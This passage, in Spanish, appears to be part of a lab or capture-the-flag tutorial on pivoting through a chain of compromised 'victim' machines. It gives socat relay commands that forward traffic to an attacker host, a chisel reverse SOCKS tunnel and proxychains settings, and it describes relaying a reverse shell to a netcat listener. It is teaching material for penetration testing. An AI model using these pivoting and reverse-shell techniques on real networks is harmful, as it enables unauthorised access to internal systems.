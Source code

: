 ```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_server_maquina_atacante:puerto_server_maquina_atacante 
```


Este comando redirige todo el tráfico entrante a través del puerto especificado a nuestro servidor, ubicado en la máquina atacante. Entonces, desde la máquina 2, ejecutamos el siguiente comando, el cual solicita un reenvío de tráfico a la máquina 1. Esta última enviará el tráfico a nuestra máquina atacante gracias a Socat.

```bash
./chisel client ip_maquina_vicitma_1:puerto_maquina_vicitma_1 R:puerto_servidor:socks
```


Una vez establecida la conexión, lo que tendremos que hacer es modificar el archivo /etc/proxychains.conf. Para ello, primero tendremos que descomentar la opción 'dynamic_chain' y comentar la opción 'strict_chain'. Luego, colocaremos el último túnel creado arriba del último túnel, algo como esto:

```
socks5 127.0.0.1 puerto_tunel
```


Y listo, así podríamos interactuar con la máquina 3 desde la máquina atacante. Si quisiéramos establecer una reverse shell desde la máquina víctima 3 a la máquina atacante, lo primero que tendríamos que hacer es compartir el socat a la máquina víctima 2 con ayuda de scp. Una vez en la máquina víctima 2, ejecutamos este comando:

```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_maquina_victima_1:puerto_maquina_victima_1
```

Este comando redireccionará todo el tráfico que llegue por un puerto hacia la máquina víctima 1 por el puerto especificado. Ahora, ingresamos a nuestra máquina víctima 1 y ejecutamos el mismo comando, solo que modificamos el puerto de escucha de la máquina víctima 1, como lo indicamos en el comando anterior, y además, en lugar de enviar el tráfico a la máquina víctima 1, lo enviamos a nuestra máquina atacante por un puerto que especificaremos más adelante. El comando de socat será el siguiente:

```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_maquina_atacante:puerto_maquina_atacante
```


Entonces, ahora simplemente nos ponemos en escucha con ayuda de netcat desde la máquina atacante en el puerto especificado en el comando anterior. Finalmente, desde la máquina víctima 3, enviamos la reverse shell con el típico one liner a la máquina víctima 2, y socat hará el resto para redirigir la reverse shell a nuestra máquina atacante. La máquina víctima 3 no parece tener otro segmento de red, así que ahora vamos a investigar la máquina víctima 4, la cual, al parecer, sí cuenta con otro segmento de red donde se encuentra la máquina víctima 5. Entonces, lo que tenemos que hacer primero para tener acceso a esta desde la máquina atacante es ingresar a la máquina víctima 2 y en esta ingresar el siguiente comando de socat, el cual redirigirá todo el tráfico que reciba en un puerto específico a la máquina víctima 1:


```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_maquina_victima_1:puerto_maquina_victima_1
```

Luego, tendremos que ingresar a la máquina víctima 1 y en esta ejecutar un comando muy similar al anterior, solo que indicaremos como puerto en escucha el que mencionamos anteriormente, y vamos a redirigir nuestro tráfico al servidor que se encuentra en la máquina atacante:
